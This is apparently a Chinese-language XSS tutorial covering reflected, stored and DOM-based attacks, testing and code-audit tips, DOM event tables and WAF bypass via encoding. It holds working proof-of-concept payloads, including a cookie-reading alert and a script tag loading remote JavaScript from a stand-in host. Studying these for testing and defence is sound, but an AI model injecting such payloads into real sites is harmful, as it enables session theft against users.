

## 定义
跨站脚本攻击XSS(Cross Site Scripting)，为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页面时，嵌入Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。XSS攻击针对的是用户层面的攻击
XSS分为：反射型XSS，存储型XSS，DOM型XSS
### 反射型XSS

具体攻击流程如下：

1. 攻击者将payload放置在url链接中（这是针对是GET型反射XSS）
2. 用户点击该恶意链接
3. web服务将XSS代码（JavaScript代码）以及视图返回给客户端
4. 客户端解析视图以及XSS代码（JavaScript代码），并将执行结果发送到XSS平台
5. 攻击者访问XSS平台，读取用户的敏感信息（Cookie）


### 存储型XSS


具体攻击流程如下：

1. 攻击者向web服务插入XSS代码
2. web服务会将其结果存储到数据库中
3. 用户正常访问web服务
4. web服务将数据库的数据以及视图返回给前端，前端渲染视图并加载数据，其中数据里包含恶意XSS代码（JavaScript代码）
5. 客户端渲染视图，加载XSS代码，并向攻击者的web服务发送敏感信息
6. 攻击者读取用户的敏感信息


### DOM型XSS


具体攻击流程如下：

1. 攻击者将payload放置在url链接中（这是针对是GET型反射XSS）
2. 用户点击恶意链接，并打开浏览器
3. 此时浏览器客户端并不会发起http请求到web服务，而是在浏览器客户端执行XSS（JavaScript代码）
4. 此时将XSS代码执行结果发送给攻击者的恶意服务
5. 攻击者访问自己的XSS平台并读取用户的敏感信息


## XSS 特征
| 类别 | 特征 |
| --- | --- |
| 反射型XSS | 非持久化，需要欺骗用户自己去点击链接才能触发XSS代码（服务器中没有这样的页面和内容），一般容易出现在搜索页面。反射型XSS大多数是用来盗取用户的Cookie信息。 |
| 存储型XSS | 持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方，插入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成蠕虫，盗窃cookie |
| DOM型XSS | 不经过后端，DOM-XSS漏洞是基于文档对象模型(Document Objeet Model,DOM)的一种漏洞，DOM-XSS是通过url传入参数去控制触发的，其实也属于反射型XSS。DOM的详解：DOM文档对象模型 |

## XSS与CSRF的区别（面试常问）
| 类别 | 特征 |
| --- | --- |
| XSS |1. 主要是加载JavaScript代码，在客户端执行<br />2. 虽然经过后端，数据库（存储型），但主要需要客户端执行XSS代码，才能生效<br />3. DOM型XSS一定不经过后端，只是对浏览器客户端发起的攻击<br />4. XSS攻击针对的是用户层面的攻击 （攻击客户端）|
| CSRF |1. 主要是欺骗服务器，虽然是由用户发起，但是服务器无法判断是否是不是用户想要发起的请求<br />2. 一定会经过后端处理，不然无法执行<br />3. CSRF是一种身份伪造攻击，来对服务器进行欺骗的一种攻击手法|
## XSS 攻击面
XSS主要是攻击客户端浏览器，但是客户端浏览器侧的JavaScript并不像Node.js这种后端JavaScript代码可以执行命令，那么XSS只能用来弹窗测试吗？实际上并不是这样的，如果你的JavaScript代码能力很强，那么可以**钓鱼**、**窃取Cookie、令牌**、**攻击浏览器（2021年4月Chrome 0 Day）**、**蠕虫攻击**、**挂黑页（放广告刷流量）**、**内网探测（针对HTTP，websocket）等等**
### 黑盒测试
尽可能找到一切用户可控并且能够输出在页面代码中的地方，比如下面这些：

- URL的每一个参数
- URL本身
- 表单
- 搜索框

### 常见业务场景

- 重灾区：评论区、留言区、个人信息、订单信息等
- 针对型：站内信、网页即时通讯、私信、意见反馈
- 存在风险：搜索框、当前目录、图片属性等

### 白盒测试(代码审计)
关于XSS的代码审计主要就是从接收参数的地方和一些关键词入手。
PHP中常见的接收参数的方式有$_GET、$_POST、$_REQUEST等等，可以搜索所有接收参数的地方。然后对接收到的数据进行跟踪，看看有没有输出到页面中，然后看输出到页面中的数据是否进行了过滤和html编码等处理。
也可以搜索类似echo这样的输出语句，跟踪输出的变量是从哪里来的，我们是否能控制，如果从数据库中取的，是否能控制存到数据库中的数据，存到数据库之前有没有进行过滤等等。
大多数程序会对接收参数封装在公共文件的函数中统一调用，我们就需要审计这些公共函数看有没有过滤，能否绕过等等。
同理审计DOM型注入可以搜索一些js操作DOM元素的关键词进行审计。
## XSS 相关payload
xss 主要是针对浏览器客户端的一种攻击，那么需要执行JavaScript代码，那么无疑需要使用到JavaScript语言以及在HTML中可以加载JavaScript的标签
### 标签类
#### script

`<script></script>` 标签是最直接的XSS payload，`<script></script>`标签可以在浏览器渲染DOM树的时候同步执行`JavaScript`代码，他可以引用外部，也可以将代码插入标签内

```html
<script>alert("xss")</script>
<script>alert(/xss/)</script>
<script>alert(1)</script>
<script>alert(document.cookie)</script>
<script src=http://xxx.com/xss.js></script>
```
#### svg
`<svg></svg>`  标签是标记定义 SVG 图形的容器，其在onload方法中是在 SVG 容器初始化的时候执行代码

```html
<svg onload="alert(1)">
<svg onload="alert(1)">
```
#### img
``标签是加载图片资源的标签，其在无法加载图片资源的时候会执行onerror方法

```html


```
#### body
`<body></body> ` 是定义HTML文档的主体。其包含文档的所有内容（比如文本、超链接、图像、表格和列表等等。）

```html
<body onload=alert(/xss/)>
<body onpageshow=alert(1)>
```
#### video
`<video></video>` 标签是引用远程媒体视频的标签，用法与img类似

```html
<video onerror="alert(/xss/)" src="1"/>
```
#### style
`<style></style> `标签是加载CSS资源的标签

```html
<style οnlοad=alert(1)></style>
```
### 表单类
在web中，最常见的为表单了，表单中的标签有`<input />、<textarea></textarea>`等等
在这里更多的是闭合语句来构成XSS比如

```html
"/><script>alert(/xss/)</script>
></textarea><script>alert(/xss/)</script>
...
```
### 事件类
在HTML中有许多事件操作的方法（DOM事件），如onclick事件，ondblclick事件等等，只需要用户点击，或者双击也可以执行JavaScript代码，在这里就需要闭合，在**块级元素**中添加事件方法。
常见的DOM事件方法如下
#### 鼠标事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [onclick](https://www.runoob.com/jsref/event-onclick.html) | 当用户点击某个对象时调用的事件句柄。 | 2 |
| [oncontextmenu](https://www.runoob.com/jsref/event-oncontextmenu.html) | 在用户点击鼠标右键打开上下文菜单时触发 |   |
| [ondblclick](https://www.runoob.com/jsref/event-ondblclick.html) | 当用户双击某个对象时调用的事件句柄。 | 2 |
| [onmousedown](https://www.runoob.com/jsref/event-onmousedown.html) | 鼠标按钮被按下。 | 2 |
| [onmouseenter](https://www.runoob.com/jsref/event-onmouseenter.html) | 当鼠标指针移动到元素上时触发。 | 2 |
| [onmouseleave](https://www.runoob.com/jsref/event-onmouseleave.html) | 当鼠标指针移出元素时触发 | 2 |
| [onmousemove](https://www.runoob.com/jsref/event-onmousemove.html) | 鼠标被移动。 | 2 |
| [onmouseover](https://www.runoob.com/jsref/event-onmouseover.html) | 鼠标移到某元素之上。 | 2 |
| [onmouseout](https://www.runoob.com/jsref/event-onmouseout.html) | 鼠标从某元素移开。 | 2 |
| [onmouseup](https://www.runoob.com/jsref/event-onmouseup.html) | 鼠标按键被松开。 | 2 |

#### 键盘事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [onkeydown](https://www.runoob.com/jsref/event-onkeydown.html) | 某个键盘按键被按下。 | 2 |
| [onkeypress](https://www.runoob.com/jsref/event-onkeypress.html) | 某个键盘按键被按下并松开。 | 2 |
| [onkeyup](https://www.runoob.com/jsref/event-onkeyup.html) | 某个键盘按键被松开。 | 2 |

#### 框架/对象（Frame/Object）事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [onabort](https://www.runoob.com/jsref/event-onabort.html) | 图像的加载被中断。 ( `<object>`) | 2 |
| [onbeforeunload](https://www.runoob.com/jsref/event-onbeforeunload.html) | 该事件在即将离开页面（刷新或关闭）时触发 | 2 |
| [onerror](https://www.runoob.com/jsref/event-onerror.html) | 在加载文档或图像时发生错误。 ( `<object>, <body>`和 `<frameset>`) |   |
| [onhashchange](https://www.runoob.com/jsref/event-onhashchange.html) | 该事件在当前 URL 的锚部分发生修改时触发。 |   |
| [onload](https://www.runoob.com/jsref/event-onload.html) | 一张页面或一幅图像完成加载。 | 2 |
| [onpageshow](https://www.runoob.com/jsref/event-onpageshow.html) | 该事件在用户访问页面时触发 |  |
| [onpagehide](https://www.runoob.com/jsref/event-onpagehide.html) | 该事件在用户离开当前网页跳转到另外一个页面时触发 |  |
| [onresize](https://www.runoob.com/jsref/event-onresize.html) | 窗口或框架被重新调整大小。 | 2 |
| [onscroll](https://www.runoob.com/jsref/event-onscroll.html) | 当文档被滚动时发生的事件。 | 2 |
| [onunload](https://www.runoob.com/jsref/event-onunload.html) | 用户退出页面。 ( `<body>` 和 `<frameset>`) | 2 |

#### 表单事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [onblur](https://www.runoob.com/jsref/event-onblur.html) | 元素失去焦点时触发 | 2 |
| [onchange](https://www.runoob.com/jsref/event-onchange.html) | 该事件在表单元素的内容改变时触发( `<input>, <keygen>, <select>`, 和 `<textarea>`) | 2 |
| [onfocus](https://www.runoob.com/jsref/event-onfocus.html) | 元素获取焦点时触发 | 2 |
| [onfocusin](https://www.runoob.com/jsref/event-onfocusin.html) | 元素即将获取焦点时触发 | 2 |
| [onfocusout](https://www.runoob.com/jsref/event-onfocusout.html) | 元素即将失去焦点时触发 | 2 |
| [oninput](https://www.runoob.com/jsref/event-oninput.html) | 元素获取用户输入时触发 | 3 |
| [onreset](https://www.runoob.com/jsref/event-onreset.html) | 表单重置时触发 | 2 |
| [onsearch](https://www.runoob.com/jsref/event-onsearch.html) | 用户向搜索域输入文本时触发 ( `<input="search">`) |   |
| [onselect](https://www.runoob.com/jsref/event-onselect.html) | 用户选取文本时触发 ( `<input>` 和 `<textarea>`) | 2 |
| [onsubmit](https://www.runoob.com/jsref/event-onsubmit.html) | 表单提交时触发 | 2 |

#### 剪贴板事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [oncopy](https://www.runoob.com/jsref/event-oncopy.html) | 该事件在用户拷贝元素内容时触发 |   |
| [oncut](https://www.runoob.com/jsref/event-oncut.html) | 该事件在用户剪切元素内容时触发 |   |
| [onpaste](https://www.runoob.com/jsref/event-onpaste.html) | 该事件在用户粘贴元素内容时触发 |   |

#### 打印事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [onafterprint](https://www.runoob.com/jsref/event-onafterprint.html) | 该事件在页面已经开始打印，或者打印窗口已经关闭时触发 |   |
| [onbeforeprint](https://www.runoob.com/jsref/event-onbeforeprint.html) | 该事件在页面即将开始打印时触发 |   |

#### 拖动事件
| 事件 | 描述 | DOM |
| --- | --- | --- |
| [ondrag](https://www.runoob.com/jsref/event-ondrag.html) | 该事件在元素正在拖动时触发 |   |
| [ondragend](https://www.runoob.com/jsref/event-ondragend.html) | 该事件在用户完成元素的拖动时触发 |   |
| [ondragenter](https://www.runoob.com/jsref/event-ondragenter.html) | 该事件在拖动的元素进入放置目标时触发 |   |
| [ondragleave](https://www.runoob.com/jsref/event-ondragleave.html) | 该事件在拖动元素离开放置目标时触发 |   |
| [ondragover](https://www.runoob.com/jsref/event-ondragover.html) | 该事件在拖动元素在放置目标上时触发 |   |
| [ondragstart](https://www.runoob.com/jsref/event-ondragstart.html) | 该事件在用户开始拖动元素时触发 |   |
| [ondrop](https://www.runoob.com/jsref/event-ondrop.html) | 该事件在拖动元素放置在目标区域时触发 |   |

#### 多媒体（Media）事件
| 事件 | 描述 | DOM |
| --- | --- | --- |
| [onabort](https://www.runoob.com/jsref/event-onabort-media.html) | 事件在视频/音频（audio/video）终止加载时触发。 |   |
| [oncanplay](https://www.runoob.com/jsref/event-oncanplay.html) | 事件在用户可以开始播放视频/音频（audio/video）时触发。 |   |
| [oncanplaythrough](https://www.runoob.com/jsref/event-oncanplaythrough.html) | 事件在视频/音频（audio/video）可以正常播放且无需停顿和缓冲时触发。 |   |
| [ondurationchange](https://www.runoob.com/jsref/event-ondurationchange.html) | 事件在视频/音频（audio/video）的时长发生变化时触发。 |   |
| onemptied | 当期播放列表为空时触发 |   |
| [onended](https://www.runoob.com/jsref/event-onended.html) | 事件在视频/音频（audio/video）播放结束时触发。 |   |
| [onerror](https://www.runoob.com/jsref/event-onerror-media.html) | 事件在视频/音频（audio/video）数据加载期间发生错误时触发。 |   |
| [onloadeddata](https://www.runoob.com/jsref/event-onloadeddata.html) | 事件在浏览器加载视频/音频（audio/video）当前帧时触发触发。 |   |
| [onloadedmetadata](https://www.runoob.com/jsref/event-onloadedmetadata.html) | 事件在指定视频/音频（audio/video）的元数据加载后触发。 |   |
| [onloadstart](https://www.runoob.com/jsref/event-onloadstart.html) | 事件在浏览器开始寻找指定视频/音频（audio/video）触发。 |   |
| [onpause](https://www.runoob.com/jsref/event-onpause.html) | 事件在视频/音频（audio/video）暂停时触发。 |   |
| [onplay](https://www.runoob.com/jsref/event-onplay.html) | 事件在视频/音频（audio/video）开始播放时触发。 |   |
| [onplaying](https://www.runoob.com/jsref/event-onplaying.html) | 事件在视频/音频（audio/video）暂停或者在缓冲后准备重新开始播放时触发。 |   |
| [onprogress](https://www.runoob.com/jsref/event-onprogress.html) | 事件在浏览器下载指定的视频/音频（audio/video）时触发。 |   |
| [onratechange](https://www.runoob.com/jsref/event-onratechange.html) | 事件在视频/音频（audio/video）的播放速度发送改变时触发。 |   |
| [onseeked](https://www.runoob.com/jsref/event-onseeked.html) | 事件在用户重新定位视频/音频（audio/video）的播放位置后触发。 |   |
| [onseeking](https://www.runoob.com/jsref/event-onseeking.html) | 事件在用户开始重新定位视频/音频（audio/video）时触发。 |   |
| [onstalled](https://www.runoob.com/jsref/event-onstalled.html) | 事件在浏览器获取媒体数据，但媒体数据不可用时触发。 |   |
| [onsuspend](https://www.runoob.com/jsref/event-onsuspend.html) | 事件在浏览器读取媒体数据中止时触发。 |   |
| [ontimeupdate](https://www.runoob.com/jsref/event-ontimeupdate.html) | 事件在当前的播放位置发送改变时触发。 |   |
| [onvolumechange](https://www.runoob.com/jsref/event-onvolumechange.html) | 事件在音量发生改变时触发。 |   |
| [onwaiting](https://www.runoob.com/jsref/event-onwaiting.html) | 事件在视频由于要播放下一帧而需要缓冲时触发。 |   |

#### 动画事件
| 事件 | 描述 | DOM |
| --- | --- | --- |
| [animationend](https://www.runoob.com/jsref/event-animationend.html) | 该事件在 CSS 动画结束播放时触发 |   |
| [animationiteration](https://www.runoob.com/jsref/event-animationiteration.html) | 该事件在 CSS 动画重复播放时触发 |   |
| [animationstart](https://www.runoob.com/jsref/event-animationstart.html) | 该事件在 CSS 动画开始播放时触发 |   |

#### 过渡事件
| 事件 | 描述 | DOM |
| --- | --- | --- |
| [transitionend](https://www.runoob.com/jsref/event-transitionend.html) | 该事件在 CSS 完成过渡后触发。 |   |

#### 其他事件
| 事件 | 描述 | DOM |
| --- | --- | --- |
| onmessage | 该事件通过或者从对象(WebSocket, Web Worker, Event Source 或者子 frame 或父窗口)接收到消息时触发 |   |
| onmousewheel | 已废弃。 使用 [onwheel](https://www.runoob.com/jsref/event-onwheel.html)||
| 事件替代 |   ||
| [ononline](https://www.runoob.com/jsref/event-ononline.html) | 该事件在浏览器开始在线工作时触发。 |   |
| [onoffline](https://www.runoob.com/jsref/event-onoffline.html) | 该事件在浏览器开始离线工作时触发。 |   |
| onpopstate | 该事件在窗口的浏览历史（history 对象）发生改变时触发。 |   |
| [onshow](https://www.runoob.com/jsref/event-onshow.html) | 该事件当` <menu>` 元素在上下文菜单显示时触发 |   |
| onstorage | 该事件在 Web Storage(HTML 5 Web 存储)更新时触发 |   |
| [ontoggle](https://www.runoob.com/jsref/event-ontoggle.html) | 该事件在用户打开或关闭 `<details> `元素时触发 |   |
| [onwheel](https://www.runoob.com/jsref/event-onwheel.html) | 该事件在鼠标滚轮在元素上下滚动时触发 |   |

#### 事件对象
##### 常量
| 静态变量 | 描述 | DOM |
| --- | --- | --- |
| CAPTURING-PHASE | 当前事件阶段为捕获阶段(1) | 1 |
| AT-TARGET | 当前事件是目标阶段,在评估目标事件(1) | 2 |
| BUBBLING-PHASE | 当前的事件为冒泡阶段 (3) | 3 |

##### 属性
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [bubbles](https://www.runoob.com/jsref/event-bubbles.html) | 返回布尔值，指示事件是否是起泡事件类型。 | 2 |
| [cancelable](https://www.runoob.com/jsref/event-cancelable.html) | 返回布尔值，指示事件是否可拥可取消的默认动作。 | 2 |
| [currentTarget](https://www.runoob.com/jsref/event-currenttarget.html) | 返回其事件监听器触发该事件的元素。 | 2 |
| eventPhase | 返回事件传播的当前阶段。 | 2 |
| [target](https://www.runoob.com/jsref/event-target.html) | 返回触发此事件的元素（事件的目标节点）。 | 2 |
| [timeStamp](https://www.runoob.com/jsref/event-timestamp.html) | 返回事件生成的日期和时间。 | 2 |
| [type](https://www.runoob.com/jsref/event-type.html) | 返回当前 Event 对象表示的事件的名称。 | 2 |

##### 方法
| 方法 | 描述 | DOM |
| --- | --- | --- |
| initEvent() | 初始化新创建的 Event 对象的属性。 | 2 |
| preventDefault() | 通知浏览器不要执行与事件关联的默认动作。 | 2 |
| stopPropagation() | 不再派发事件。 | 2 |

#### 目标事件对象
##### 方法
| 方法 | 描述 | DOM |
| --- | --- | --- |
| addEventListener() | 允许在目标事件中注册监听事件(IE8 = attachEvent()) | 2 |
| dispatchEvent() | 允许发送事件到监听器上 (IE8 = fireEvent()) | 2 |
| removeEventListener() | 运行一次注册在事件目标上的监听事件(IE8 = detachEvent()) | 2 |

#### 事件监听对象
##### 方法
| 方法 | 描述 | DOM |
| --- | --- | --- |
| handleEvent() | 把任意对象注册为事件处理程序 | 2 |

#### 文档事件对象
##### 方法
| 方法 | 描述 | DOM |
| --- | --- | --- |
| createEvent() |   | 2 |

#### 鼠标/键盘事件对象
##### 属性
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [altKey](https://www.runoob.com/jsref/event-altkey.html) | 返回当事件被触发时，"ALT" 是否被按下。 | 2 |
| [button](https://www.runoob.com/jsref/event-button.html) | 返回当事件被触发时，哪个鼠标按钮被点击。 | 2 |
| [clientX](https://www.runoob.com/jsref/event-clientx.html) | 返回当事件被触发时，鼠标指针的水平坐标。 | 2 |
| [clientY](https://www.runoob.com/jsref/event-clienty.html) | 返回当事件被触发时，鼠标指针的垂直坐标。 | 2 |
| [ctrlKey](https://www.runoob.com/jsref/event-ctrlkey.html) | 返回当事件被触发时，"CTRL" 键是否被按下。 | 2 |
| [Location](https://www.runoob.com/jsref/event-key-location.html) | 返回按键在设备上的位置 | 3 |
| [charCode](https://www.runoob.com/jsref/event-key-charcode.html) | 返回onkeypress事件触发键值的字母代码。 | 2 |
| [key](https://www.runoob.com/jsref/event-key-key.html) | 在按下按键时返回按键的标识符。 | 3 |
| [keyCode](https://www.runoob.com/jsref/event-key-keycode.html) | 返回onkeypress事件触发的键的值的字符代码，或者 onkeydown 或 onkeyup 事件的键的代码。 | 2 |
| [which](https://www.runoob.com/jsref/event-key-which.html) | 返回onkeypress事件触发的键的值的字符代码，或者 onkeydown 或 onkeyup 事件的键的代码。 | 2 |
| [metaKey](https://www.runoob.com/jsref/event-metakey.html) | 返回当事件被触发时，"meta" 键是否被按下。 | 2 |
| [relatedTarget](https://www.runoob.com/jsref/event-relatedtarget.html) | 返回与事件的目标节点相关的节点。 | 2 |
| [screenX](https://www.runoob.com/jsref/event-screenx.html) | 返回当某个事件被触发时，鼠标指针的水平坐标。 | 2 |
| [screenY](https://www.runoob.com/jsref/event-screeny.html) | 返回当某个事件被触发时，鼠标指针的垂直坐标。 | 2 |
| [shiftKey](https://www.runoob.com/jsref/event-shiftkey.html) | 返回当事件被触发时，"SHIFT" 键是否被按下。 | 2 |

##### 方法
| 方法 | 描述 | W3C |
| --- | --- | --- |
| initMouseEvent() | 初始化鼠标事件对象的值 | 2 |
| initKeyboardEvent() | 初始化键盘事件对象的值 |  |

## XSS的绕过方式
### JavaScript伪协议
```html
javascript:alert(/xss/);
<a href=javascript:alert(1)>111</a><!--引号可以去掉-->
<!--支持伪协议的属性有：href，lowsrc，bgsound，background，action，dynsrc-->
<!-- 好多浏览器都不支持了，a标签还支持，但是需要点击才能生效-->
```
### 编码
浏览器在解析HTML文档时无论按照什么顺序，主要有三个过程：HTML解析、JS解析和URL解析，每个解析器负责HTML文档中各自对应部分的解析工作。
首先浏览器接收到一个HTML文档时，会触发HTML解析器对HTML文档进行词法解析，这一过程完成HTML解码并创建DOM树，接下来JavaScript解析器会。介入对内联脚本进行解析，这一过程完成JS的解码工作，如果浏览器遇到需要URL的上下文环境，这时URL解析器也会介入完成URL的解码工作，URL解析器的解码顺序会根据URL所在位置不同，可能在JavaScript解析器之前或之后解析。
浏览器的解析规则：浏览器收到HTML内容后，会从头开始解析。当遇到JS代码时，会使用JS解析器解析。当遇到URL时，会使用URL解析器解析。遇到CSS则用CSS解析器解析。尤其当遇到复杂代码时，可能该段代码会经过多个解析器解析。
```html


<!--首先经过HTML解析将alert&#x28/xss/&#x29"解析为alert(1)，然后JS解析器解析后执行alert(1)，导致弹窗。
然后第二个payload中&#x000000000028不管有多少个0，HTML解析器都会正常解析，绕WAF的时候非常有用-->

<!--首先经过HTML解析，然后JS解析器成功将\u0061lert(/xss/)解析为alert(/xss/)所以能弹窗 
但是用 Unicode 转义序列来表示一个控制字符时，例如单引号、双引号、圆括号等等，
它们将不会被解释成控制字符，而仅仅被解码并解析为标识符名称或者字符串常量-->
<a href="javascript:%61lert%281%29">xss</a>
<!--首先经过HTML解析，因为href会涉及到URL所以会先进行URL解析，
将%61lert%281%29解析为alert(1)最后再经过JS解析器成功解析alert(1)
URL 解析过程中有一个细节了，不能对协议类型进行任何的编码操作，否则URL解析器会认为它无类型-->
```
### 双写
### 大小写
### 一些案例
```html


```
## 参考链接
[https://www.runoob.com/jsref/dom-obj-event.html](https://www.runoob.com/jsref/dom-obj-event.html)

[XSS（跨站脚本）详解](https://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247483698&idx=1&sn=cebb6e5c01f4e6a72860f13c5e5ea4f5&chksm=eaad810fddda08195f9afdfd4ead758bc3de3a1aa5bc71b169d2599383b51b431218ac19142d&scene=21#wechat_redirect)

